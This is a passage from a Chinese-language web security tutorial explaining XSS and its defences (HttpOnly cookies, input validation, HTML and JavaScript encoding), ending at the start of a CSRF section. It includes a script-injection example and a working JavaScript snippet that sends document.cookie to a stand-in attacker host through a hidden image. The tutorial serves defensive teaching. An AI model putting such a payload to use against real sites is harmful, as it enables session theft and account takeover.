 ```Javascript
<script>
    alert(document.cookie)
</script> 
```

Cookie 发送给攻击者的站点：

```Javascript
 var img = document.createElement('img')
  img.src='http://www.xss.com?cookie=' + document.cookie
  img.style.display='none'
  document.getElementsByTagName('body')[0].appendChild(img);
```

当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。

#### 防御

按理说，只要有输入数据的地方，就可能存在 XSS 危险。

- httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。

  ```Javascript
    // koa
    ctx.cookies.set(name, value, {
        httpOnly: true // 默认为 true
    })
  ```

- 过滤

  1. 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。

      不仅仅是前端负责，后端也要做相同的过滤检查。

      因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。

  2. HtmlEncode 某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换

      <img src="https://raw.githubusercontent.com/Selenamona/Selenamona.github.io/master/assets/images/safe-transform.jpg" width="700"/>

      当用户输入`<script>window.location.href="http://www.baidu.com";</script>`, 最终保存结果为 `&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;`, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。

  3. JavaScriptEncode 对下列字符加上反斜杠

      <img src="https://raw.githubusercontent.com/Selenamona/Selenamona.github.io/master/assets/images/safe-t2.jpg" width="700"/>

      关于更多 HtmlEncode 和 JavaScriptEncode，请参考 [HtmlEncode和JavaScriptEncode（预防XSS）](http://www.cnblogs.com/lovesong/p/5211667.html)

## CSRF

csrf：跨站点请求伪造（Cross-Site Request Forgeries），也被称为 one-click attack 或者 session riding。冒充用户发起请求（在用户不知情的情况下）， 完成一些违背用户意愿的事情（如修改用户信息，删初评论等）。

可能会造成以下影响：
